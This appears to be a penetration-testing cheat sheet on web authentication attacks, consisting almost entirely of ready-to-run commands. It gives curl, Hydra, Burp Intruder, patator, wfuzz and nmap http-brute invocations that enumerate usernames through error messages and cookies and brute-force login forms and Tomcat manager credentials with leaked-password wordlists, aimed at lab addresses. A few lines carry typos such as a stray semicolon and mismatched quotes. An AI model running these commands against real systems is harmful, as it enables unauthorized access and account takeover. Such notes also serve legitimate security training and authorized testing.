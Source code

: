 # Authentication Attacks

## Authentication Attacks



## Enumerate HTML Login Forms

We can use curl to view page source code and see the input of each data cell:

```bash
curl -s http://10.10.10.101/users/login.php | grep 'input name'
```

## HTTP Create User via POST

We can create a user with curl:

```text
curl -X POST -d 'username=testing123&password=test123&confirm=test123' http://victim/
```



### HTTP Basic Authentication

HTTP Basic Authentication with Hydra:

```text
hydra -C /opt/SecLists/Passwords/Default-Credentials/tomcat-betterdefaultpasslist.txt http-get://10.10.10.10:8080/manager/html
```

See the base64 value:

```bash
echo -n 'admin:admin' | base64
```

Authenticate with curl with valid credentials:

```bash
curl http://10.10.10.101:8080 -H "Authorization: Basic YWRtaW46YWRtaW4=" -I
```

### Enumerating Usernames via Error Messages

We can enumerate usernames with error messages.

`Invalid User`

#### BurpSuite Intruder

Add a position in the value that you want to intrude/fuzz:

```text
Intruder -> Positions -> Sniper -> Add Position
```

Select a dictionary attack with:

```text
Intruder -> Payloads -> Payload set -> Payload type (Simple List | Dictionary Attack)
```

Load the dictionary with:

```text
Intruder -> Payloads -> Payload Options -> Load
```

Match the string 'Invalid User' from the HTTP response:

```text
Intruder -> Options -> Grep - Match -> Clear -> Add -> Invalid User
```

Follow redirections on the target only:

```text
Intruder -> Options -> Redirections -> Follow redirections -> In-scope only
```

Start the attack with:

```text
Intruder -> Payloads -> Start attack OR Intruder Start Menu -> Start attack
```

#### patator

We can view the help panel with:

```text
patator http_fuzz --help
```

A few examples of an HTTP authentication dictionary attack: \(Change the parameters and their values\)

```text
patator http_fuzz url=http://target/login.php method=POST body='username=FILE0&password=admin&Submit=Login' 0=usernames.txt -x ignore:fgrep='Invalid User'
patator http_fuzz url=http://target/login.php method=POST body='username=FILE0&password=admin&Submit=Login' 0=usernames.txt follow=1 -x ignore:fgrep='Invalid User'
patator http_fuzz url=http://target/login.php method=POST body='username=FILE0&password=admin&Submit=Login' 0=usernames.txt follow=1 accept_cookie=1 -x ignore:fgrep='Invalid User'
```

**wfuzz**

A few examples of an HTTP authentication dictionary attack: \(Change the parameters and their values\)

```text
wfuzz -c -w names.txt -d "username=FUZZ&password=password" http://10.10.10.10/login.php
```

### Enumerating Usernames via Cookie Values

We can enumerate usernames with cookie values.

#### BurpSuite Intruder

Add a position in the value that you want to intrude/fuzz:

```text
Intruder -> Positions -> Sniper -> Add Position
```

Select a dictionary attack with:

```text
Intruder -> Payloads -> Payload set -> Payload type (Simple List | Dictionary Attack) Intruder -> Payloads -> Payload Options -> Load
```

Match the response string of an invalid user cookie parameter:

```text
Intruder -> Options -> Grep - Match -> Clear -> Add -> wrong_user
```

Follow redirections on the target only

```text
Intruder -> Options -> Redirections -> Follow redirections -> In-scope only
```

Start the attack with:

```text
Intruder -> Payloads -> Start attack OR Intruder Start Menu -> Start attack
```

#### patator

We can do a username enumeration with: \(Change the parameters and their values\)

```text
patator http_fuzz url=http://target/login.php method=POST body='username=FILE0&password=admin&Submit=Login' 0=usernames.txt --x ignore:fgrep='wrong_user'
patator http_fuzz url=http://target/login.php method=POST body='username=FILE0&password=admin&Submit=Login' 0=usernames.txt follow=1 -x ignore:fgrep='wrong_user'
patator http_fuzz url=http://target/login.php method=POST body='username=FILE0&password=admin&Submit=Login' 0=usernames.txt follow=1 accept_cookie=1 -x ignore:fgrep='wrong_user'
```

### Password Enumeration

#### patator

We can do a password enumeration with: \(Change the parameters and their values\)

```text
patator http_fuzz url=http://target/login.php method=POST body='username=admin&password=FILE0&Submit=Login' 0=passwords.txt --x ignore:fgrep='Invalid Password'
```

## Brute Force in Login Forms

### nmap

```text
nmap -p 80 --script http-brute --script-args 'http-brute.hostname=domain_name,http-brute.method=POST,http-brute.path=/login,userdb=users.txt,passdb=passwords.txt' -v domain_name -n
```

### hydra

```text
hydra -l username -P <IP> http-post-form "/login_file.php:username_parameter=^USER^&password_parameter=^PASS^:error message"

hydra -l username; -P passlist.txt <IP> https-post-form "/directory/filname.php:password=^PASS^&remember=yes&login=Log+In&proc_login=true:Incorrect" -t 64

hydra -l admin -P /opt/SecLists/Passwords/10k_most_common.txt <IP> http-post-form "/dir/filename.php:username=^USER^&password=^PASS^:Invalid" -t 64
```

### wfuzz

```text
wfuzz -c -u http://<IP>/login.php -d 'username_param=FUZZ&password=FUZZ' -w <wordlist.txt> -hh 440

wfuzz --hh 1073 -c -u http://10.10.10.101/users/login.php -X POST -d "Username=admin&Password=FUZZ&Submit=Login" -w /opt/SecLists/Passwords/darkweb2017-top10000.txt

wfuzz -c -z wordlist1.txt wordlist2.txt -u http://<IP>/login.php -d 'username_param=FUZZ&password=FUZZ' -w <wordlist.txt> --hw 430

wfuzz --hw 36 -c -w /opt/SecLists/Passwords/darkweb2017-top1000.txt -d 'username=admin&password=FUZZ&submit=Login' http://10.10.10.86/login
```

#### wfuzz with cookie

```text
wfuzz -w cewl.out -d '<parameters>' -b '<cookie_value>' http://<IP>/login/index.php

wfuzz --hw 29 -c -w /opt/SecLists/Passwords/darkweb2017-top1000.txt -H 'Cookie: password=FUZZ' http://10.10.10.86:8080/ 

wfuzz --hc 200 -w cewl.out -d 'username=FUZZ&passwd=Curling2018!&otherparameters" -b <cookie> http://<ip>/administrator/index.php
```

#### wfuzz with proxy

```text
wfuzz -w cewl.out -d '<parameters>' -p 127.0.0.1:8080 http://<IP>/login/index.php
```

### patator

```text
patator http_fuzz url=http://10.10.10.108/zabbix/index.php method=POST body= 'name=zapper&password=FILE0&autologin=1&enter=Sign+in' 0=/usr/share/SecLists/Passwords/darkweb2017-top1000.txt accept\_cookie=1 follow=1 -x ignore:fgrep= 'Login name or password is incorrect.'
patator http_fuzz url=http://10.10.10.101/users/login.php method=POST body='Username=admin&Password=FILE0&Submit=Login' 0=/opt/SecLists/Passwords/darkweb2017-top10000.txt follow=1 -x ignore:fgrep='Invalid Login Details'
```



